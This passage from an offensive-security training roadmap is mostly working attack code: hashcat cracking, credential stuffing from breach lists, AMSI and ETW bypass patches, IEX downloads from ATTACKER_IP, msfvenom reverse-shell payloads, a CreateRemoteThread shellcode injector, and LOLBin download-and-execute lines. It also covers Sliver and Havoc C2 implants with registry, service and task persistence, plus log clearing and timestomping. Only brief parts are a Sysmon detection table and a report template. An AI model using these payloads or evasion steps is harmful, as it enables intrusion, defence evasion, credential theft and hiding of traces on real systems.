### 9.2 Hashcat - GPU Password Cracking

```bash
# Hash identification:
hashid hash.txt
# Or: https://hashes.com/en/tools/hash_identifier

# Common hash modes:
# NTLM:            hashcat -m 1000
# NTLMv2:          hashcat -m 5600
# Kerberos TGS:    hashcat -m 13100
# Kerberos AS-REP: hashcat -m 18200
# SHA-256:         hashcat -m 1400
# bcrypt:          hashcat -m 3200
# WPA/WPA2:        hashcat -m 22000

# Basic dictionary attack:
hashcat -m 1000 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt

# Dictionary + rules:
hashcat -m 1000 ntlm_hashes.txt rockyou.txt -r /usr/share/hashcat/rules/best64.rule
hashcat -m 1000 ntlm_hashes.txt rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule

# OneRuleToRuleThemAll (community's most effective single rule):
# https://github.com/NotSoSecure/password_cracking_rules
hashcat -m 1000 ntlm_hashes.txt rockyou.txt -r OneRuleToRuleThemAll.rule

# Mask attack (pattern generation):
# ?u=uppercase  ?l=lowercase  ?d=digit  ?s=special  ?a=all
# Corporate pattern: Capital + 5 lowercase + 4 digits + special
hashcat -m 1000 ntlm_hashes.txt -a 3 ?u?l?l?l?l?l?d?d?d?d?s

# GPU speed reference (RTX 4090, 2026 benchmarks):
# NTLM:    ~164 GH/s (8-char full keyspace: under 1 second)
# NTLMv2:  ~4.5 GH/s
# MD5:     ~164 GH/s
# SHA-256: ~20 GH/s
# bcrypt:  ~184 kH/s (wordlist + rules only viable strategy)

# Show cracked results:
hashcat -m 1000 ntlm_hashes.txt --show
```

---

### 9.3 Credential Stuffing

```bash
# Breach data sources (2026-2027):
# HIBP API: https://haveibeenpwned.com/API/v3
# IntelX: https://intelx.io (paid, large corpus)
# DeHashed: https://dehashed.com (paid)

# Filter breach data for target domain:
grep -i "@target.com" breach_combo_list.txt > target_creds.txt

# Extract users and passwords:
awk -F: '{print $1}' target_creds.txt > target_users.txt
awk -F: '{print $NF}' target_creds.txt > target_passwords.txt

# Spray with CredMaster:
python3 credmaster.py --plugin msol \
  --access_key AWS_KEY --secret_access_key AWS_SECRET \
  -u target_users.txt -p target_passwords.txt -t 5 --timeout 30
```

---

---

## SECTION 10: AV/EDR EVASION AND PAYLOAD DELIVERY

### What This Is and Why It Matters

This section is what the original Phase 2 roadmap was missing. Without it, every technique in Sections 3, 4, and 6 fails the moment you try to use it on a real system. Windows Defender with default settings in 2026 detects WinPEAS, Rubeus, SharpHound, Mimikatz, and most compiled Metasploit payloads within seconds of them touching disk.

Understanding AV and EDR evasion is not optional. It is the difference between a lab operator and a field operator.

### How EDR Detection Works

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

**What this means for you:**
- Dropping a known-bad file on disk: immediate detection (hash/YARA)
- Running a PowerShell script: AMSI scans it before execution
- Injecting shellcode: EDR hooks catch the API calls
- Using LOLBins: EDR watches what they do, not just that they run

---

### Curriculum

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| [Sektor7 Malware Dev Essentials](https://institute.sektor7.net/red-team-operator-malware-development-essentials) | Course | 10 hours | $30 | Best practical AV evasion course for beginners. |
| [VX-Underground](https://www.vx-underground.org/) | Reference | Ongoing | FREE | Malware samples and papers. Study how real malware evades detection. |
| [AMSI Bypass Catalogue](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) | Reference | 3 hours | FREE | Comprehensive list of working AMSI bypasses. |
| [Process Injection Techniques](https://github.com/3xpl01tc0d3r/ProcessInjection) | Reference | 4 hours | FREE | Overview of Windows process injection methods. |
| [Havoc Evasion Techniques](https://havocframework.com/docs/) | Docs | 3 hours | FREE | How modern C2 frameworks handle evasion. |

---

### 10.1 AMSI Bypass - Disabling PowerShell's Scanner

AMSI (Antimalware Scan Interface) intercepts PowerShell, JScript, and VBScript execution and passes the content to the installed AV for inspection before it runs. AMSI must be disabled before loading any offensive PowerShell tool (PowerView, Invoke-Mimikatz, PowerSharpPack, etc.).

```powershell
# How AMSI works:
# PowerShell calls AmsiScanBuffer() before executing any script block
# AmsiScanBuffer() is in amsi.dll which is loaded into the PowerShell process
# You patch AmsiScanBuffer() in memory to always return AMSI_RESULT_CLEAN (1)
# PowerShell then "sees" all scripts as clean

# AMSI Bypass Method 1: Patch AmsiScanBuffer (works on Windows 10/11, PowerShell 5/7)
# This patches the function in memory to immediately return success
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$Lib = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($Lib, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
# After this runs: PowerShell does not scan anything. Load your tools freely.

# AMSI Bypass Method 2: PowerShell version with string obfuscation
# (avoids detection of the bypass itself)
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

# AMSI Bypass Method 3: Reflection-based (avoids static signature detection)
[ReflEction.AssEmbly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
# Note: This targets ETW logging, not AMSI directly

# VERIFY bypass worked:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# Then test: IEX("EICAR_TEST_STRING") should not be blocked
```

---

### 10.2 ETW Patching - Blind the Logging

ETW (Event Tracing for Windows) powers PowerShell ScriptBlock logging (Event ID 4104). Even with AMSI bypassed, ScriptBlock logging records every PowerShell command. Patch ETW to stop it.

```powershell
# Patch ETW in the current PowerShell process:
$patched = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('dXNpbmcgU3lzdGVtOw=='))
$R = [Reflection.Assembly]::LoadWithPartialName("System.Core")
$G = $R.GetType('System.Diagnostics.Eventing.EventProvider')
$F = $G.GetField('m_enabled', 'NonPublic,Instance')
$EP = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
$FF = $EP.GetField('etwProvider','NonPublic,Static')
$ETP = $FF.GetValue($null)
$F.SetValue($ETP, 0)
# PowerShell ScriptBlock logging is now disabled for this session

# Alternatively: one-liner (more detectable but simpler)
[System.Diagnostics.Eventing.EventProvider].GetField("m_enabled","NonPublic,Instance").SetValue([Ref].Assembly.GetType("System.Management.Automation.Tracing.PSEtwLogProvider").GetField("etwProvider","NonPublic,Static").GetValue($null),0)
```

---

### 10.3 In-Memory Execution - Never Touch Disk

```powershell
# Load PowerShell tools directly from your attacker's web server:
# First run AMSI and ETW bypasses above, then:

# Load PowerView:
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/PowerView.ps1')

# Load PowerSharpPack (collection of C# tools compiled for in-memory execution):
# https://github.com/S3cur3Th1sSh1t/PowerSharpPack
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/PowerSharpPack.ps1')
Invoke-Rubeus -Command "kerberoast /format:hashcat"
Invoke-SharpHound -Command "-c All"
Invoke-Mimikatz

# Load from HTTPS (if HTTP is filtered, set up HTTPS server):
# On attacker: python3 -m http.server 8443 --certfile cert.pem
IEX (New-Object Net.WebClient).DownloadString('https://ATTACKER_IP:8443/tool.ps1')

# Serve files from Kali (quick setup):
sudo python3 -m http.server 80           # HTTP
sudo python3 -m http.server 443          # HTTP on port 443 (not HTTPS but useful)

# Better: use a proper web server:
sudo service apache2 start
cp tool.ps1 /var/www/html/
```

---

### 10.4 Defender-Aware Payload Generation

Standard `msfvenom` outputs get flagged by Windows Defender within seconds. Here is how to generate payloads that survive.

```bash
# Step 1: Check what signatures exist on your payload
# Install VirusTotal CLI or upload manually to https://www.virustotal.com
# Never upload actual operational payloads to VT (it shares with AV vendors)
# Use a private AV scanner: https://antiscan.me

# Step 2: Simple msfvenom encoding (bypasses older AV, not modern Defender)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 \
  -f exe -e x64/xor_dynamic -i 10 -o payload.exe
# -e: encoder    -i: iterations

# Step 3: Template-based executable (embed payload in legitimate binary)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 \
  -x /usr/share/windows-binaries/whoami.exe -k -f exe -o payload.exe
# -x: use legitimate binary as template    -k: keep original functionality

# Step 4: Python-based payload obfuscation (more effective against static detection)
# Install: pip3 install pyinstaller
cat > payload.py << 'EOF'
import socket, subprocess, os, base64

# XOR decode the shellcode at runtime (not stored in plain bytes)
encoded = b"ENCODED_SHELLCODE_HERE"
key = 0x41
decoded = bytes([b ^ key for b in encoded])

import ctypes
buf = ctypes.create_string_buffer(decoded)
fn = ctypes.cast(buf, ctypes.CFUNCTYPE(ctypes.c_void_p))
fn()
EOF
pyinstaller --onefile --noconsole payload.py

# Step 5: Shellcode loaders (more reliable in 2026-2027)
# The most effective approach: write a custom C/C++ loader
# See Section 11 (C2 frameworks): Sliver and Havoc generate evasive implants natively

# Step 6: Invoke-Obfuscation (PowerShell payload obfuscation)
# https://github.com/danielbohannon/Invoke-Obfuscation
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/Invoke-Obfuscation.ps1')
Invoke-Obfuscation
# TOKEN\ALL\1 or LAUNCHER\PS\12288 are good starting obfuscation combos
```

---

### 10.5 Process Injection - Run Code in Another Process

Process injection executes your shellcode inside a legitimate process (explorer.exe, notepad.exe, svchost.exe). The malicious activity appears to come from a trusted process.

```c
// classic_inject.cpp
// Injects shellcode into a remote process via VirtualAllocEx + WriteProcessMemory + CreateRemoteThread
// Compile: x86_64-w64-mingw32-g++ classic_inject.cpp -o inject.exe -lpsapi

#include <windows.h>
#include <stdio.h>

// msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f c
// Paste the shellcode array here:
unsigned char shellcode[] = {
    0xfc, 0x48, 0x83, 0xe4, 0xf0  // truncated - replace with actual shellcode
};
SIZE_T shellcode_len = sizeof(shellcode);

int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("Usage: %s <target_pid>\n", argv[0]);
        return 1;
    }

    DWORD pid = atoi(argv[1]);

    // Open target process with necessary permissions
    HANDLE hProc = OpenProcess(
        PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_CREATE_THREAD,
        FALSE, pid
    );
    if (!hProc) {
        printf("OpenProcess failed: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory in target process
    LPVOID pRemoteMem = VirtualAllocEx(
        hProc,
        NULL,
        shellcode_len,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );

    // Write shellcode to allocated memory
    SIZE_T written;
    WriteProcessMemory(hProc, pRemoteMem, shellcode, shellcode_len, &written);

    // Create a thread in the target process to execute the shellcode
    HANDLE hThread = CreateRemoteThread(
        hProc,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)pRemoteMem,
        NULL,
        0,
        NULL
    );

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    CloseHandle(hProc);

    printf("Injected %zu bytes into PID %d\n", shellcode_len, pid);
    return 0;
}
```

```bash
# Compile on Kali:
x86_64-w64-mingw32-g++ classic_inject.cpp -o inject.exe -lpsapi

# Find a suitable target process PID:
# On target Windows: tasklist | findstr explorer
# Or: Get-Process explorer | Select-Object Id

# Usage:
.\inject.exe 1234    # Replace 1234 with explorer.exe PID

# More evasive injection technique: QueueUserAPC (Early Bird injection)
# Injects into a new suspended process: bypasses many EDR hooks
# Reference: https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection
```

**Detection artifacts:**
- VirtualAllocEx with `PAGE_EXECUTE_READWRITE`: Sysmon Event ID 8 (CreateRemoteThread)
- WriteProcessMemory to another process: process access auditing
- Unusual parent-child relationships in Sysmon Event ID 1

---

### 10.6 Living Off the Land - LOLBins

```powershell
# certutil.exe: file download
certutil.exe -urlcache -split -f http://ATTACKER_IP/payload.exe C:\Temp\payload.exe

# bitsadmin.exe: background file download
bitsadmin /transfer "job1" http://ATTACKER_IP/payload.exe C:\Temp\payload.exe

# regsvr32.exe: execute script from URL (squiblydoo)
regsvr32.exe /s /n /u /i:http://ATTACKER_IP/payload.sct scrobj.dll

# mshta.exe: execute HTA from URL
mshta.exe http://ATTACKER_IP/payload.hta

# wscript.exe: execute JScript (less detected than PowerShell in some environments)
wscript.exe //e:jscript //nologo payload.js

# Full LOLBAS reference: https://lolbas-project.github.io/
# Full GTFOBins reference: https://gtfobins.github.io/
```

---

### 10.7 Staged vs Stageless Payloads

```bash
# Stageless: entire payload in the binary (larger, no callback needed, better for restrictive networks)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o stageless.exe

# Staged: small stager downloads the rest from your listener (smaller, requires network callback)
msfvenom -p windows/x64/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o staged.exe
# Note: shell_reverse_tcp = stageless, shell/reverse_tcp = staged (the / matters)

# Staged requires Metasploit multi/handler:
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/shell/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4444
exploit -j

# When to use which:
# Stageless: target has restricted outbound, or you want single-binary simplicity
# Staged: evading AV is easier with a small stager (less code = fewer signatures)
# For operational use: C2 framework implants (Section 11) are better than both
```

---

---

## SECTION 11: C2 FRAMEWORK OPERATIONS

### What This Is and Why It Matters

A C2 (Command and Control) framework replaces the raw reverse shells you have been using. When a shell dies because of a network timeout or a reboot, your access is gone. A C2 implant reconnects automatically, survives reboots via persistence, encrypts its traffic, and gives you a rich operator interface for managing multiple targets simultaneously.

In 2026-2027, the operator standard is a C2 framework. Everything else is reconnaissance.

### C2 Architecture

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### Curriculum

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| [Sliver C2 Documentation](https://sliver.sh/docs) | Docs | 5 hours | FREE | Complete documentation. Read all of it. |
| [Havoc Framework Documentation](https://havocframework.com/docs/) | Docs | 5 hours | FREE | Most modern evasive C2. Intermediate difficulty. |
| [C2 Matrix](https://www.thec2matrix.com/) | Reference | 2 hours | FREE | Compare every major C2 framework. |
| [RedTeaming - Adversary Simulation](https://github.com/jnahmias/Red-Teaming-TTPs) | Reference | Ongoing | FREE | Red team TTPs including C2 tradecraft. |

---

### 11.1 Sliver C2 - Getting Started

Sliver is an open-source C2 framework by BishopFox. Written in Go. Generates implants in Go, C/C++, or as shellcode. As of 2026, it is the most widely used open-source C2 framework for operators.

```bash
# Install Sliver on your attacker machine (or a VPS):
# https://github.com/BishopFox/sliver

# Quick install:
curl https://sliver.sh/install | sudo bash

# Start the Sliver server:
sudo sliver-server

# This starts two things:
# 1. The operator interface (CLI)
# 2. The gRPC listener (for operator connections)
# First run generates certificates and configs

# Connect as operator (on the same machine: automatic):
sliver

# You are now in the Sliver console:
sliver >
```

---

### 11.2 Creating a Listener

```bash
# In the Sliver console:

# HTTPS listener (most common: blends into web traffic):
sliver > https -L 0.0.0.0 -l 443

# HTTP listener:
sliver > http -L 0.0.0.0 -l 80

# mTLS listener (mutual TLS: most secure, use for implants that are not going through a CDN):
sliver > mtls -L 0.0.0.0 -l 8888

# DNS listener (for DNS-based C2: bypasses most firewalls):
# Requires: domain you control with NS record pointing to your C2 server
sliver > dns -d your-c2-domain.com

# List active listeners:
sliver > jobs
```

---

### 11.3 Generating Implants

```bash
# In the Sliver console:

# Generate a Windows HTTPS implant (stageless, executable):
sliver > generate --os windows --arch amd64 --format exe \
  --http ATTACKER_IP:443 --name "update_service" --save /tmp/
# Output: /tmp/update_service.exe

# Generate a Linux implant:
sliver > generate --os linux --arch amd64 --format elf \
  --http ATTACKER_IP:443 --name "cron_worker" --save /tmp/

# Generate shellcode (for process injection):
sliver > generate --os windows --arch amd64 --format shellcode \
  --http ATTACKER_IP:443 --name "shellcode_beacon" --save /tmp/

# Generate a shared library (DLL injection):
sliver > generate --os windows --arch amd64 --format shared \
  --http ATTACKER_IP:443 --name "evil" --save /tmp/

# Evasion options:
sliver > generate --os windows --arch amd64 --format exe \
  --http ATTACKER_IP:443 \
  --evasion \              # Enable evasion features (obfuscation, anti-analysis)
  --skip-symbols \         # Strip debug symbols
  --name "svchost_update" \
  --save /tmp/

# List generated implants:
sliver > implants
```

---

### 11.4 Operating Through Sliver

```bash
# Transfer the implant to the target and execute it
# (use whatever initial access you have: SMB, WinRM, RDP, etc.)

# Once the implant connects back, in the Sliver console:
sliver > sessions
# Shows: ID, Name, Transport, RemoteAddress, Hostname, Username, OS, LastCheck

# Interact with a session:
sliver > use SESSION_ID
# Or: sliver > sessions -i SESSION_ID

# You are now in an implant session:
[update_service] sliver (VICTIM-PC) >

# Basic commands:
whoami
hostname
getpid                       # PID of the implant process
getuid                       # Current user and privileges
ps                           # List running processes
ls C:\Users\                 # List directory
cat C:\Users\Admin\Desktop\flag.txt
download C:\Users\Admin\Desktop\important.docx /tmp/
upload /tmp/tool.exe C:\Temp\tool.exe

# Shell access:
shell                        # Interactive cmd.exe shell (noisy)
execute -o cmd /c whoami     # Single command, returns output

# PowerShell:
execute-assembly /path/to/Assembly.exe [args]
# Runs a .NET assembly in memory: no file written to disk

# Load PowerShell scripts through the session:
execute -o powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/amsi_bypass.ps1')"

# Pivot: use this implant as a SOCKS proxy to reach its internal network:
socks5 start -P 1080
# Then configure proxychains to use 127.0.0.1:1080

# Port forwarding through implant:
portfwd add --remote INTERNAL_IP:445 --local 127.0.0.1:1445

# Elevate privileges (if you have a PrivEsc path):
getsystem                    # Attempts automated SYSTEM elevation (combines multiple techniques)
```

---

### 11.5 Persistence Through C2

```bash
# In a Sliver session on the target:

# Registry Run key persistence:
registry write --hive HKCU \
  --key "Software\\Microsoft\\Windows\\CurrentVersion\\Run" \
  --value "WindowsUpdate" \
  --type string \
  --data "C:\\ProgramData\\update_service.exe"

# Service-based persistence (requires SYSTEM or admin):
services create --name "WindowsUpdater" \
  --description "Windows Update Service Helper" \
  --exe-path "C:\\ProgramData\\update_service.exe" \
  --start-type automatic

# Scheduled task persistence:
execute -o schtasks /create /tn "WindowsUpdater" /tr "C:\ProgramData\update_service.exe" /sc onlogon /ru SYSTEM /f
```

---

### 11.6 Havoc C2 - Advanced Option

Havoc is more advanced than Sliver and specifically designed for modern evasion. Use it once you are comfortable with Sliver.

```bash
# Install Havoc:
# https://github.com/HavocFramework/Havoc
git clone https://github.com/HavocFramework/Havoc.git
cd Havoc

# Install dependencies:
sudo apt install -y git build-essential apt-utils cmake libfontconfig1 libglu1-mesa-dev \
  libgtest-dev libspdlog-dev libboost-all-dev libncurses5-dev libgdbm-dev libssl-dev \
  libreadline-dev libffi-dev libsqlite3-dev libbz2-dev mesa-common-dev qtbase5-dev \
  qtchooser qt5-qmake qtbase5-dev-tools libqt5websockets5 libqt5websockets5-dev \
  qtdeclarative5-dev golang-go nasm

# Build:
cd teamserver && go mod download && go build . && cd ..
cd client && mkdir build && cd build && cmake .. && make -j4 && cd ../..

# Start team server:
./havoc server --profile ./profiles/havoc.yaotl

# Connect with client (GUI):
./havoc client

# Havoc advantages over Sliver:
# - Demon implant is written in C: more evasive than Go-based implants
# - Built-in AMSI/ETW patching in the implant
# - Stack spoofing (hides malicious call stack from memory scanners)
# - Sleep encryption (encrypts implant memory between callbacks)
# - More customisable evasion profile

# Generate a Demon implant in Havoc GUI:
# Payloads -> Generate -> Demon
# Set: Listener, Architecture (x64), Format (Windows EXE)
# Enable: AMSI/ETW Patch, Sleep Encryption, Stack Spoofing
```

---

---

## SECTION 12: OPSEC WITHIN PHASE 2

### What This Is and Why It Matters

OPSEC (Operational Security) means understanding every trace you leave on target systems, and managing those traces to stay under the detection threshold. Understanding what you leave behind is not just about avoiding detection during the operation: it is about understanding what defenders find in the forensic investigation afterward.

### Self-Validation: Configure Sysmon in Your Lab

**This is mandatory.** You cannot learn operational OPSEC by taking the artifact descriptions on faith. You must see them yourself in your own lab.

```bash
# Install Sysmon on your Windows lab machines (Sysinternals):
# Download: https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon
# Download Sysmon config (SwiftOnSecurity: best starting config):
# https://github.com/SwiftOnSecurity/sysmon-config

# Install on Windows victim (run as Administrator):
.\sysmon64.exe -accepteula -i sysmonconfig-export.xml

# View Sysmon events:
# Event Viewer -> Applications and Services Logs -> Microsoft -> Windows -> Sysmon -> Operational

# Or query with PowerShell:
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" |
  Where-Object {$_.Id -eq 10} |   # Event ID 10 = ProcessAccess (LSASS dump alert)
  Select-Object TimeCreated, Message |
  Format-List

# Key Sysmon events to understand:
# Event ID 1:  Process Create (new process with full command line)
# Event ID 3:  Network Connection (outbound connections from processes)
# Event ID 7:  Image Loaded (DLL loads)
# Event ID 8:  CreateRemoteThread (process injection alert)
# Event ID 10: ProcessAccess (one process reading another: LSASS dump alert)
# Event ID 11: FileCreate (new file on disk)
# Event ID 12: RegistryEvent (registry key created/deleted)
# Event ID 13: RegistryValue (registry value set: Run keys)

# Now run your techniques and watch what appears:
# Run psexec -> see Event ID 7045 (Service Install) in System log + Sysmon ID 1
# Dump LSASS -> see Sysmon ID 10 immediately
# Drop WinPEAS -> see Sysmon ID 11, then Defender alert
# Modify Run key -> see Sysmon ID 13
# This trains your OPSEC intuition from empirical evidence
```

---

### 12.1 Technique-to-Artifact Reference

| Technique | Target Artifact | Log Location |
|-----------|----------------|--------------|
| psexec | `PSEXESVC` service created | System log: Event ID 7045 |
| wmiexec | `cmd.exe` spawned by `WmiPrvSE.exe` | Sysmon Event ID 1 |
| evil-winrm | `wsmprovhost.exe` process | Event ID 4624 Type 3, Sysmon ID 1 |
| LSASS dump via ProcDump | `lsass.dmp` on disk + process access | Sysmon Event ID 10 |
| Responder | ARP cache poison entries | Network switch ARP logs, WIDS |
| ntlmrelayx | Short-lived SMB admin connection | Event ID 4624 on relay target |
| mimikatz | `privilege::debug` | Event ID 4673 (Sensitive Privilege Use) |
| BloodHound SharpHound | LDAP queries to DC | Event ID 1644 on DC |
| Scheduled task creation | Scheduled Task Operational log | Event ID 4698 |
| Registry Run key | HKLM/HKCU Run key modified | Event ID 4657 (if object auditing) |
| netsh portproxy | Registry key written | HKLM\SYSTEM\CurrentControlSet\Services\PortProxy |
| WinPEAS on disk | Dropped binary | Windows Defender + Sysmon ID 11 |
| SSH key planted | `authorized_keys` modified | auditd syscall log |
| certipy find | LDAP query for certificate templates | Event ID 1644 on DC |
| Shadow credential add | msDS-KeyCredentialLink modified | Event ID 5136 |
| ACL modification | AD object ACL modified | Event ID 5136 |

---

### 12.2 Artifact Reduction Techniques

```powershell
# Use memory instead of disk:
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/tool.ps1')
# vs. downloading to disk and running (two detections vs one)

# Prefer wmiexec over psexec:
impacket-wmiexec domain/user:pass@TARGET_IP
# No service creation. Quieter. WMI traffic is expected in most environments.

# Clear PowerShell history:
Remove-Item "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -Force

# Clear Windows event logs (if SYSTEM: this itself generates Event ID 1102):
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
# WARNING: Real-time SIEM ingestion means this data is already upstream before you clear it.
# Clearing logs is a high-confidence indicator of compromise for defenders.

# Disable PowerShell history for this session:
Set-PSReadlineOption -HistorySaveStyle SaveNothing

# Clear Linux history:
unset HISTFILE
export HISTSIZE=0
history -c
cat /dev/null > ~/.bash_history

# Timestomping (blend file timestamps with surrounding files):
# Linux:
touch -t 202001010000 /tmp/payload.sh
# PowerShell:
$file = Get-Item "C:\Temp\payload.exe"
$file.CreationTime = "2020-01-01 08:00:00"
$file.LastWriteTime = "2020-01-01 08:00:00"
$file.LastAccessTime = "2020-01-01 08:00:00"
```

---

### 12.3 Living Off the Land (Full Reference)

```powershell
# Use built-in Windows binaries instead of dropping custom tools.
# EDR products flag unknown binaries. They cannot flag certutil.exe outright:
# they flag what certutil.exe does.

certutil.exe -urlcache -split -f http://ATTACKER_IP/payload.exe C:\Temp\payload.exe
bitsadmin /transfer "job1" http://ATTACKER_IP/payload.exe C:\Temp\payload.exe
regsvr32.exe /s /n /u /i:http://ATTACKER_IP/payload.sct scrobj.dll
mshta.exe http://ATTACKER_IP/payload.hta

# Full LOLBAS reference: https://lolbas-project.github.io/
```

---

---

## MILESTONE PROJECTS

### Milestone 1: Full Network Penetration Test Report

**Scope:** Your local lab network (minimum 3 machines)
**Timeline:** Weeks 8-12
**Deliverable:** A pentest report in the format below

```markdown
# Network Penetration Test Report

## Executive Summary
Target: [Lab network name]
Date: [Date range]
Tester: [Your name]
Scope: [IP ranges / hosts tested]

### Risk Summary
| Severity | Count |
|----------|-------|
| Critical | X |
| High     | X |
| Medium   | X |
| Low      | X |

## Technical Findings

### Finding 1: [Vulnerability Name]
| Field | Detail |
|-------|--------|
| Severity | Critical / High / Medium / Low |
| CVSS Score | X.X |
| Affected Host | 192.168.1.X |
| Service | SMB / SSH / HTTP / etc |

**Description:** [What the vulnerability is: 2-3 sentences]

**Reproduction Steps:**
1. [Exact command]
2. [Exact command]
3. [Observed result]

**Evidence:** [Command output or screenshot description]

**Impact:** [What an attacker can do. Business impact.]

**Remediation:** [Specific fix: version to upgrade, configuration to change]

## Attack Chain
Step 1: [action on machine/service]
Step 2: [PrivEsc or lateral move]
Step N: [Final goal achieved]

## Artifacts Generated
[List every event log entry, file, or registry key created during the test]
```

---

### Milestone 2: Custom Privilege Escalation Scanners

**Timeline:** Weeks 12-16
**Deliverable:** Two working scripts

#### Linux PrivEsc Scanner

```bash
#!/bin/bash
# linux_privesc_check.sh
